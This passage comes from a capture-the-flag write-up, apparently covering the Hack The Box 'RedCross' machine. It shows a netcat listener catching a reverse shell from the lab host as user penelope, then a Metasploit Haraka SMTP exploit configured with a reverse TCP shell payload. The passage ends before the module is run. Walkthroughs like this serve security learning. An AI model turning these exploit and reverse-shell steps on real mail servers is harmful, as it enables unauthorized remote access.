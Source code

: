 

And after a minute:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.113.
    Ncat: Connection from 10.10.10.113:35862.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)



#### Metasploit

Alternatively, there is a metasploit module that also worked. Here's my
configuration:



    msf5 exploit(linux/smtp/haraka) > options

    Module options (exploit/linux/smtp/haraka):

       Name        Current Setting        Required  Description
       ----        ---------------        --------  -----------
       SRVHOST     0.0.0.0                yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0                                                                                       
       SRVPORT     8008                   yes       The local port to listen on.
       SSL         false                  no        Negotiate SSL for incoming connections
       SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)                                                                                                           
       URIPATH                            no        The URI to use for this exploit (default is random)
       email_from  0xdf@redcross.htb      yes       Address to send from
       email_to    penelope@redcross.htb  yes       Email to send to, must be accepted by the server
       rhost       10.10.10.113           yes       Target server
       rport       1025                   yes       Target server port


    Payload options (linux/x64/shell_reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  tun0             yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   linux x64



Now run it to get a shell as actual penelope:
